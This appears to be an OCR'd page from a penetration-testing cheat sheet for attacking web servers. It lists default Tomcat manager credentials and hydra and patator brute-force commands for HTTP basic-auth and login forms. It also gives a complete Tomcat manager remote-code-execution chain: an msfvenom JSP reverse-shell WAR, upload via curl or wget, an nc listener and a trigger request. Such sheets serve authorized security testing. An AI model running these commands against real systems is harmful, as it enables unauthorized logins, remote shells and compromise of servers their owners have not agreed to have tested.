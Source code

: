 admin:admin
tomcat:tomcat
admin:<NOTHING>
admin:s3cr3t
tomcat:s3cr3t
admin:tomcat
Brute force
hydra -L <USERS_LIST> -P <PASSWORDS_LIST> -f <IP> http-get /manager/html -vV -u
Tomcat panel RCE
# Generate payload
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war

# Upload payload
Tomcat6 :
wget 'http://<USER>:<PASSWORD>@<IP>:8080/manager/deploy?war=file:shell.war&path=/shell' -O -

Tomcat7 and above :
curl -v -u <USER>:<PASSWORD> -T shell.war 'http://<IP>:8080/manager/text/deploy?path=/shellh&update=true'

# Listener
nc -lvp <PORT>

# Execute payload
curl http://<IP>:8080/shell/
WebDav
davtest -url <URL>
HTTP brute force authentication
HTTP basic authentication
# Hydra
hydra -l <USER> -V -P <PASSWORDS_LIST> -s 80 -f <IP> http-get /<URL_ENDPOINT>/ -t 15

# Patator
python patator.py http_fuzz auth_type=basic url=<URL> user_pass=FILE0 0=<USER:PASSWORD_LIST> -x ignore:code=401 -x ignore:code=307
HTTP GET request
hydra <IP> -V -l <USER> -P <PASSWORDS_LIST> http-get-form "/login/:username=^USER^&password=^PASS^:F=Error:H=Cookie: safe=yes; PHPSESSID=12345myphpsessid" -t <THREADS_NUMBER>
HTTP POST request
hydra -l <USER> -P <PASSWORDS_LIST> <IP> http-post-form "/webapp/login.php:username=^USER^&password=^PASS^:Invalid" -t <THREADS_NUMBER>
Spidering / Brute force directories / files
gospider -d <DEPTHS> --robots --sitemap -t <THREADS> -s <URL>
